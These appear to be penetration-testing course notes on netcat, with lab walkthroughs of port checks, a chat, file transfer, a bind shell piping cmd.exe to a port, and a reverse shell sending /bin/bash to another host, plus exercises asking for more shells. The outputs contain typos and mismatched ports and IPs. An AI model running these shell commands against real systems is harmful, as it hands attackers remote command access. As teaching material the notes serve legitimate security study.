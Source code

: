 # 2. - The Essential Tools

##### p.36

## Table fo contents

#### [2.1 - Netcat](#21---netcat-1)

## 2.1 - Netcat

[Netcat](https://en.wikipedia.org/wiki/Netcat) is a tool that can read and write to TCP and UDP ports.
The Hacker's Swiss Army Knife and exists as both Linux and Windows binaries.

### 2.1.1 - Connecting to a TCP/UDP Port

Connecting to a TCP/UDP port can be useful in several situations:

* To check if a port is open or closed
* To read a banner from the port
* To connect to a network service manually

Let's begin by using **netcat** to check if TCP port 110 (POP3 mail service) is open in [metasploitable](https://sourceforge.net/projects/metasploitable/) virtual machine.

```
root@kali:~# nc 192.168.0.104 110
(UNKNOWN) [10.0.0.22] 110 (pop3) open
+OK POP3 server lab ready <00003.1277944@lab>
```

The output aboce tells us several things. First, the TCP connection to IP 192.168.0.104 on port 110 succeeded, and **netcat** found the remote port open. Next, we can see that the server responded to our connection by "talking back to us" and spitting out the server welcome message, prompting us to log in, wich is standard for POP3 services.

### 2.1.2 Listening on a TCP/UDP Port

Listening on a TCP/UDP port using **netcat** is useful for network debugging client applications. Let's try implementing a simple chat involving two machines, using **netcat** both as a client and server.

Set up **netcat** to listen for **incomming connections** on TCP port 4444 on a Ubuntu machine (server):

```
root@ubuntu:~$ nc -vnlp 4444
Listening on [0.0.0.0] (family 0, port 5859)
```

Once we have bound port 4444 on the Windows machine Netcat, we can connect to that port from the Kali Linux machine to interact with it.

```
root@kali:~# nc -nv 10.0.2.2 4444
(UNKNOWN) [10.0.2.2] 5859 (?) open
This chat is from Kali Linux vm
```

Our text is sent to the Windows machine over TCP port 4444 and we can continue the *"chat"* from the Ubuntu machine (IP 10.0.2.2).

```
root@ubuntu:~$ nc -vnlp 5859
Listening on [0.0.0.0] (family 0, port 5859)
Connection from [127.0.0.1] port 5859 [tcp/*] accepted (family 2, sport 58668)
This chat is from Kali Linux machine
This chat is from Ubuntu machine
```

### Exercicies

1. Wich machine acted as the **netcat server**?

> Ubuntu

2. Wich machine acted as the **netcat client**?

> Kali Linux

3. On which machine was port 4444 actually opened?

> Ubuntu

4. The command line syntax difference between the client and serve.

* Server
```
root@ubuntu:~$ nc -vnlp 4444
```

* Client
```
root@kali:~# nc -nv 10.0.2.2 4444
```

### 2.1.3 Transferring Files with Netcat

Netcat can also be used to transfer files, both text and binary, from one computer to another. To send a file from the Kali Linux to the Ubuntu machine, we initiate a setup that is similar to the precious chat example.

On the **Ubuntu** machine, we will set up a **netcat** listener on port 4444 and redirect any incoming input into a file called *incoming.exe*

```
root@ubuntu:~$ nc -vnlp 4444 > incoming.exe
```

On the **Kali Linux** syste,, we will push the *wget.exe* file to the Ubuntu machine through TCP port 4444

```
root@kali:~# locate wget.exe
/usr/share/windows-binaries/wget.exe
root@kali:~# nc -vn 10.0.2.2 4444 < /usr/share/windows-binaries/wget.exe
```

The connection is received by **netcat** on the Ubuntu machine as shown bellow:

```
nc -vnlp 4444 > incoming.exe
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [127.0.0.1] port 4444 [tcp/*] accepted (family 2, sport 46084)
```

Notice that we haven't received any feddback from **netcat** about our file upload progress. We can just wait for a moment and check wheter it has been fully upload to the Ubuntu machone (check file size).

### 2.1.4 Remote Administration with Netcat

One of the most useful features of netcat is its ability to do command redirection. Netcat can take an executable file and redirect the input, output, and error messages to a TCP/UDP port rather than the default console. To further explain this, consider the cmd.exe executable. By redirecting the stdin, stdout, and stderrto the network, you can bind cmd.exe to a local port. Anyone connecting to this port will be resented with a command prompt belonging to this computer.

```
```

#### 2.1.4.1 - Netcat Bind Shell Scenario
I our first scenario, Bob (running Windows) has requested Alice's assistence (running Linux) and has asked her to connect to his computer and issue some commands remotely. bob has a public IP address, and is directly connected to the Internet. Alice, however, is behind a NATd connection, and has an internal IP address. To complete the scenario, Bob needs to bind **cmd.exe** to a TCP port in his public IP address, and ask Alice to connect to this particular IP and port. Bob will procees to issue the following command with **netcat**

```
C:\Users\offsec> nc ­‐nlvp 4444 ­‐e cmd.exe
listening on [any] 4444...
```

Netcat has bound TCP port 4444 to **cmd.exe** and will redirect any input, output, or error messages from **cmd.exe** to the network. In other words, anyone connecting to TCP port 4444 on Bob's machine, hopeffully Alice, will be presented with Bob's command prompt.

```
root@kali:~# ifconfig eth0 | grep inet
		inet addr:10.0.0.4 cast:10.0.0.255 Mask:255.255.255.0

root@kali:~# nc -­nv 10.0.0.22 4444
(UNKNOWN) [10.0.0.22] 4444 (?) open
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Users\offsec> ipconfig 
Windows IP Configuration
Ethernet adapter Local Area Connection:
Connection-specific DNS Suffix  . :
IPv4 Address. . . . . . . . . . . : 10.0.0.22
Subnet Mask . . . . . . . . . . . : 255.255.255.0
Default Gateway . . . . . . . . . : 10.0.0.138

C:\Users\offsec>
```

#### 2.1.4.2 - Reverse Shell Scenario

Reverse Shell Scenario In our second scenario, Alice needs help from Bob.
However, Alice has no control over the router in her office, and therefore cannot forward traffic from the router to her  internal machine. Is there any way for Bob to connect to Alice'ʹs computer, and solve her problem? Here we discover another useful feature of
Netcat, the ability to send a command shell to a listening host. In this situation, although Alice cannot bind a port to /bin/bash
locally on her computer and expect Bob to connect, she can send control of her command prompt to Bob'ʹs machine, instead.
This is known as a reverse shell.
To get this working, Bob needs to set up netcat to listen for an incoming shell.
We’ll use port 4444 in our example:

```
C:\Users\offsec> nc ­‐nlvp 4444 
listening on [any] 4444 ...
```

Now Alice can send a reverse shell from her Linux Machine to Bob:

```
root@kali:~# nc ­‐nv 10.0.0.22 4444 ­‐e /bin/bash
(UNKNOWN)    [10.0.0.22]    4444    (?)    open
```

### 2.1.5 Exercises

1. Implement a simple chat between you Kali and Windows system

> Ubuntu (Server)

```
nc -vnlp 4444
Listening on [0.0.0.0] (family 0, port 4444)
```

> Kali Linux (Client)

```
nc -vn 10.0.2.2 4444
(UNKNOWN) [10.0.2.2] 4444 (?) open
```

2. Practice using Netcat to create the following:
	* Reverse shell from Kali to Windows
	* Reverse shell from Windows to Kali
	* Bind shell on Kali. use your Windows client to connect to it
	* Bind shell in Windows. Use your kali system to connec to it
